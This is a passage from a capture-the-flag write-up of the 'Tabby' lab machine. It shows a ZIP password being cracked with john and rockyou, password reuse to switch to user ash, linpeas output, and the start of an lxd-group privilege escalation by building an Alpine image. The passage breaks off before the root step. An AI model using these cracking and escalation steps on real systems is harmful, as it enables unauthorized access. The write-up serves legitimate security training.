 Then run `john`.

```none
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2021-08-14 16:08) 0.6172g/s 6392Kp/s 6392Kc/s 6392KC/s adminako123..admin422243
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So... we cracked the file. But it seems there is not much useful information in the ZIP archive. Decided to try password reuse, with the only real target user being `ash`.

```none
tomcat@tabby:/var/www/html/files$ su - ash
Password: 
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

And the user flag.

```none
ash@tabby:~$ wc -c user.txt
33 user.txt
```

Success!

## Privesc: `ash` to `root`

Ran some linpeas in the background while submitting the user flag from the previous step. Some interesting information came up about the `lxd` group that I noticed before.

```none
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#users                                                 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd) 
```

Had read a write-up a long time ago about using `lxd` for privesc. I had a quick read of the [lxd/lxc Group - Privilege escalation on HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation). The summary is priceless...

> If you belong to lxd or lxc group, you can become root

There were two methods available when you don't have Internet access to run this privesc. I chose the second method as there were no software prereqs, just a GitHub repo clone and build. I followed the instructions word-for-word for building the image on my system.

```none
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

